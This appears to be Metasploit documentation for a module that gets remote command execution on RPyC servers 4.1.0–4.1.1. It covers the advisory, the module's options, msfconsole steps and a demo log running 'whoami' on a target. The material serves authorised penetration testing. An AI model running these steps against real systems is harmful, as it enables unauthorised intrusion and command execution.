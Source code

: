 ## Introduction
This module automatically exploits a vulnerability to remotely execute code on
RPyC servers running versions 4.1.0 and 4.1.1. The vulnerability allows a
remote attacker to dynamically modify object attributes to construct a remote
procedure call that executes code for an RPyC service with default
configuration settings.

## Vulnerable Application:

RPyC servers running versions between 4.1.0 and 4.1.1.

Link to vulnerable RPyC version:
https://github.com/tomerfiliba-org/rpyc/releases/tag/4.1.1


Link to Advisory:
https://github.com/advisories/GHSA-pj4g-4488-wmxm

## Options

### RHOST

Configure the remote vulnerable system.

### RPORT

Configure the TCP port of the RPyC server.

### COMMAND

Configure the command to execute on the remote system.

## Verification Steps

1. Have exploitable RPyC server (example IP: 0.0.0.0):
2. Start `msfconsole`:
3. Do:  ```use auxiliary/scanner/http/rpyc_rce```
4. Do: ```set RHOST 0.0.0.0```
7. Do: ```set RPORT 18812``` (Set the remote port on which the server is accessible)
8. Do: ```set COMMAND whoami``` (Set the command you want to execute)
9. Do: ```run```
10. Logs the output of the command you specified.


## Scenarios

Exploiting a vulnerable RPyC server located at 0.0.0.0:9999 with the command
`whoami`:

```log
msf auxiliary(scanner/http/rpyc_rce) > set RHOST 0.0.0.0
msf auxiliary(scanner/http/rpyc_rce) > set RPORT 9999
msf auxiliary(scanner/http/rpyc_rce) > set COMMAND whoami
msf auxiliary(scanner/http/rpyc_rce) > run
```

Demo example output for the module:

```log
msf > use auxiliary/scanner/http/rpyc_rce
msf auxiliary(scanner/http/rpyc_rce) > show options

Module options (auxiliary/scanner/http/rpyc_rce):

Name     Current Setting  Required  Description
----     ---------------  --------  -----------
COMMAND  whoami           yes       Command to execute
RHOST    0.0.0.0          yes       Target address
RHOSTS   0.0.0.0          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasp
loit/basics/using-metasploit.html
RPORT    9999             yes       Target port
THREADS  1                yes       The number of concurrent threads (max one per host)


View the full module info with the info, or info -d command.

msf auxiliary(scanner/http/rpyc_rce) > set RHOST 0.0.0.0
RHOST => 0.0.0.0
msf auxiliary(scanner/http/rpyc_rce) > set RPORT 9999
RPORT => 9999
msf auxiliary(scanner/http/rpyc_rce) > set COMMAND whoami
COMMAND => whoami
msf auxiliary(scanner/http/rpyc_rce) > run

[*] Running for 0.0.0.0...
[*] Connected to RPyC service at 0.0.0.0:9999
[*] Executing command: whoami
[*] Command result: nobody
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
